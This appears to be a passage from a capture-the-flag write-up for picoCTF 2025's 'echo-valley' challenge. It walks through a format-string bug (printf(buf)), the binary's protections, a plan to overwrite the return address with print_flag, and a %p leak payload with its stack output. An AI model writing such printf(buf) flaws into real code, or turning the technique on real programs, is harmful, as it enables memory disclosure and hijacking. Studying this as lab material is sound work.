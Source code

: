 ```c

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```

We have a vulnerable call to `printf` that directly uses a buffer (i.e. `printf(buf);`) and it's in a loop meaning we can use it multiple times. Checking the protections with `pwntools` reveals that pretty much everything is enabled.

```shell
[*] '/home/ctf/picoctf-2025/pwn/echo-valley/valley'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

Which means that our best path to securing the flag is to leak the address of the return value on the stack and replace it with the address of the `print_flag` function.

Using a sample payload I found some interesting addresses.

```shell
elcome to the Echo Valley, Try Shouting:
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
You heard in the distance: 0x5555555560c1|(nil)|0x7ffff7f9ca00|(nil)|0x5555555596b0|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0xa7c70257c|(nil)|(nil)|0xf7a5753e67c48200|0x7fffffffe2d0|0x555555555413|0x1|0x7ffff7dafd90|(nil)|0x555555555401|0x100000000|0x7fffffffe3e8|(nil)|
```
